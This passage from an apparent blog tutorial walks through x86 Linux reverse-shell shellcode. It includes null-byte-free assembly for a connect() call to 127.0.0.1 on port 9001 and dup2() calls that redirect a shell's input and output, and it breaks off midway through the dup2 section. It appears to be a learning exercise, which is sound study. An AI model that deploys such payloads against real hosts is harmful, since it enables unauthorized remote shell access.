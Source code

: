 As we can see above, ECX is XOR’d and pushed onto the stack (resulting in 0x00000000), we then move the value 127 (0x7f) into the lowest part of the address, followed by another move byte instruction which places the value 1 (0x1) into the highest part of the register, finally resulting in 0x0100007f - this now means the current value on the top of our stack is our local IP address, 127.0.0.1. We then complete our data struct by pushing our port number and value for AF_INET onto the stack.

Now we have our completed data struct in memory, we can implement our connect system call with each parameter correctly set ready for execution. This can seen in the following snippet:

```
; syscall connect 362 (0x16a)
; int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
xor eax, eax
mov ax, 0x16a
mov ebx, edi                     ; our backed up fd from socket()

; create our struct
xor ecx, ecx
push ecx
mov byte [esp], 0x7f             ; now esp is: 0x0000007f
mov byte [esp+3],0x01            ; now esp is 0x0100007f
push ecx
push word 0x2923                 ; port 9001
push word 0x2                    ; AF_INET
mov ecx, esp                     ; set the 2nd param to equal a pointer to our struct

xor edx, edx
mov dl, 16                       ; size of struct
int 0x80
```

To quickly cover the above snippet, we start off by XOR-ing our EAX register before placing the syscall value 362 (0x16a) into the lower half of the register. Remember, we use AX instead of EAX to remove any NULL bytes in the final payload. We place the value returned by our socket() system call in our 1st parameter (EBX) before crafting our sockaddr struct. Once created and placed on the stack, as described before, we move the current value of our ESP register (pointer to the top of the stack) into our second parameter (ECX). This now satisfies the pointer requirement, described in our initial analysis of the connect system call. Finally, we xor our 3rd parameter register (EDX) and move the value 16 into the lower half of the register, stating the size of the struct. The system call is now ready to execute with the ‘int 0x80’ instruction.

We now need to call dup2() three times to set up our pipes for our final shell. Originally, in exercise 1, I implemented three separate chunks of instructions to perform the system call with the correct parameter values. In my second draft I changed this to use a loop, decrementing the counter each time before breaking out of the loop. This time around I returned to the three separate chunks of instructions. The main reason was, I forgot how to implement a loop and I didn’t want to look back at my previous asm file for help. So I stuck with the three chunks:

```
; syscall dup2 - 3 times 63 (0x3f)
; int dup2(int oldfd, int newfd);
xor eax, eax
mov al, 0x3f
mov ebx, edi
xor ecx, ecx
int 0x80                ; first call with 0

xor eax, eax
mov al, 0x3f
mov ebx, edi
mov cl, 0x1
int 0x80                ; second call with 1

xor eax, eax
mov al, 0x3f
mov ebx, edi
```